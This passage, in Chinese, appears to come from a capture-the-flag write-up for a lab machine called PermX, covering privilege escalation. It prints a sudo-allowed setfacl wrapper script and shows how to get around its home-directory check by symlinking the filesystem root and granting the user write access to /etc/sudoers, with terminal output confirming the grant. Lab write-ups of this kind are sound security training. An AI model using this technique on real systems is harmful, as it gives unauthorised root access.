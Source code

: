 ## Privilege Escalation

基础信息收集一把梭：

- 用户家目录的隐藏文件：无
- `sudo -l`：`(ALL : ALL) NOPASSWD: /opt/acl.sh`
- SUID：无特别发现
- cron：`crontab -l`，`ls /etc/cron*`，无特别发现


有个sudo免密执行，确认一下其脚本内容。以及当前用户无权限修改该脚本：
```bash
mtz@permx:~$ cat /opt/acl.sh 
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

mtz@permx:~$ ls -iahl /opt/acl.sh
1091 -rwxr-xr-x 1 root root 419 Jun  5 11:58 /opt/acl.sh
```

总的来说，该脚本用`setfacl`命令为指定的单个文件创建ACL，文件必须在mtz的家目录下，且文件名不能包含`..`以防止目录穿越。

那么可以尝试创建软链接？可以想到几个利用方式，比如为`passwd`或`sudoers`文件分配修改权。

为了尽量减少对当前机器环境的破坏，本来想直接指定`root.txt`，不过不知道为什么失败：
```bash
mtz@permx:~/.cache$ ln -s /root/root.txt rt.txt
mtz@permx:~/.cache$ sudo /opt/acl.sh mtz r /home/mtz/.cache/rt.txt 
setfacl: /home/mtz/.cache/rt.txt: Operation not permitted
```

那直接粗暴的，把`sudoers`里的命令改成`/bin/bash`，然后sudo提权：
```bash
mtz@permx:~/.cache$ ln -s / rt
mtz@permx:~/.cache$ ls -iahl
total 8.0K
352506 drwx------ 2 mtz mtz 4.0K Jul  7 03:51 .
131073 drwxr-x--- 5 mtz mtz 4.0K Jul  7 03:49 ..
262372 -rw-r--r-- 1 mtz mtz    0 May 31 11:14 motd.legal-displayed
266748 lrwxrwxrwx 1 mtz mtz    1 Jul  7 03:51 rt -> /

mtz@permx:~/.cache$ ls -iahl /etc/sudoers
721 -r--r----- 1 root root 1.7K Jul  7 03:51 /etc/sudoers
mtz@permx:~/.cache$ sudo /opt/acl.sh mtz rwx /home/mtz/.cache/rt/etc/sudoers
mtz@permx:~/.cache$ ls -iahl /etc/sudoers
721 -r--rwx---+ 1 root root 1.7K Jul  7 03:51 /etc/sudoers
```